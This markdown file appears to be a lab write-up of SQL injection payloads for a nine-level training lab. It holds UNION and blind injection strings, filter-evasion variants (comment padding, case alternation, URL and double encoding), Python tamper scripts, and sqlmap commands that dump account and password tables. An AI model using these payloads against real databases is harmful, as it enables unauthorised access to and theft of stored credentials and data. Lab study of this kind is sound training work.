 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# SQL Injection Lab Payloads

* Example SQLi
  * Find the browser with ID = 1

		' UNION SELECT group_concat('|',id,browser,'|') FROM browsers-- -

### Level 2 - How many instances of alienbrowser are there
```sql
# Detection of blind injection
9999' OR substring(database(),1,1)=2#
```

```bash
# sqlmap command
sqlmap -r level2.req --dbms=mysql --technique=B -D 2sqlilabs -T browsers --dump --level=2 --threads 5
```

### Level 3 - find the admin password
```sql
# space filter bypass using comments
'/**/UNION/**/SELECT/**/group_concat('~',username,'|',password,'~')/**/FROM/**/accounts#
```
### Level 4 - Find the amount of columns in the other table
		
1. Get table names (no spaces or comments)

		'UNION(SELECT(group_concat(table_name))FROM(information_schema.columns)WHERE(table_schema=database()))#
		'UNION(SELECT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name='secretcustomers'))#

### Level 5 - Find how many tables have ELS in their name

		"UNION(SELECT(group_concat(table_name))FROM(information_schema.columns)WHERE(table_schema=database()))#

### Level 6 - Find the GUID of elsboss@els.com

		' UnIoN SeLeCt gRoUp_cOnCaT('~',guid,'|',email,'~') FrOm email;#


* python
```python
#!/usr/bin/python3

# tamper script for easier data retrieval

import sys

def tamper(payload):
  new_payload = ''
  for i in range(len(payload)):
	if i % 2 == 0:
	  new_payload += payload[i].upper()
	else:
	  new_payload += payload[i]
  return new_payload
  
print(tamper(sys.argv[1]))
```

### Level 7 - Find the email with GUID 7EF6514D-1618-8368-B602-BCD92DD820E5

		' uZEROFILLnZEROFILLiZEROFILLoZEROFILLnZEROFILL ZEROFILLsZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLtZEROFILL ZEROFILLeZEROFILLmZEROFILLaZEROFILLiZEROFILLlZEROFILL ZEROFILLfZEROFILLrZEROFILLoZEROFILLmZEROFILL ZEROFILLeZEROFILLmZEROFILLaZEROFILLiZEROFILLlZEROFILL ZEROFILLwZEROFILLhZEROFILLeZEROFILLrZEROFILLeZEROFILL ZEROFILLgZEROFILLuZEROFILLiZEROFILLdZEROFILL ZEROFILL=ZEROFILL ZEROFILL'ZEROFILL7ZEROFILLEZEROFILLFZEROFILL6ZEROFILL5ZEROFILL1ZEROFILL4ZEROFILLDZEROFILL-ZEROFILL1ZEROFILL6ZEROFILL1ZEROFILL8ZEROFILL-ZEROFILL8ZEROFILL3ZEROFILL6ZEROFILL8ZEROFILL-ZEROFILLBZEROFILL6ZEROFILL0ZEROFILL2ZEROFILL-ZEROFILLBZEROFILLCZEROFILLDZEROFILL9ZEROFILL2ZEROFILLDZEROFILLDZEROFILL8ZEROFILL2ZEROFILL0ZEROFILLEZEROFILL5ZEROFILL'ZEROFILL; ZEROFILL-- ZEROFILL-


```python
#!/usr/bin/python3

import sys

def tamper(payload):
  fill = 'ZEROFILL'
  new_payload = ''
  for i in payload:
	new_payload += i + fill
  return new_payload
  
print(tamper(sys.argv[1]))
```

### Level 8 - Which web browser has 1337 instances
* SQL

		%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%27%7e%27%2c%69%64%2c%27%7c%27%2c%62%72%6f%77%73%65%72%2c%27%7c%27%2c%63%6f%75%6e%74%2c%27%7e%27%29%20%46%52%4f%4d%20%62%72%6f%77%73%65%72%73%2d%2d%20%2d
* bash
sqlmap -u http://8.sqli.labs/ -p user-agent --dbms=mysql --tamper=charencode --level=2 --technique=U -D 8sqlilabs -T browsers --dump

### Level 9 - Find the sha1 hash of elsadmin's password
* SQL

		%25%32%37%25%32%30%25%35%35%25%34%65%25%34%39%25%34%66%25%34%65%25%32%30%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%36%37%25%37%32%25%36%66%25%37%35%25%37%30%25%35%66%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%32%37%25%37%63%25%32%37%25%32%63%25%37%34%25%36%31%25%36%32%25%36%63%25%36%35%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%32%63%25%32%37%25%37%63%25%32%37%25%32%39%25%32%30%25%34%36%25%35%32%25%34%66%25%34%64%25%32%30%25%36%39%25%36%65%25%36%36%25%36%66%25%37%32%25%36%64%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%35%66%25%37%33%25%36%33%25%36%38%25%36%35%25%36%64%25%36%31%25%32%65%25%36%33%25%36%66%25%36%63%25%37%35%25%36%64%25%36%65%25%37%33%25%32%30%25%35%37%25%34%38%25%34%35%25%35%32%25%34%35%25%32%30%25%37%34%25%36%31%25%36%32%25%36%63%25%36%35%25%35%66%25%37%33%25%36%33%25%36%38%25%36%35%25%36%64%25%36%31%25%33%64%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%64%25%32%64%25%32%30%25%32%64
* bash

		sqlmap -u http://9.sqli.labs/ -p user-agent --dbms=mysql --tamper=chardoubleencode --level=2 --technique=U -D 9sqlilabs -T accounts --dump
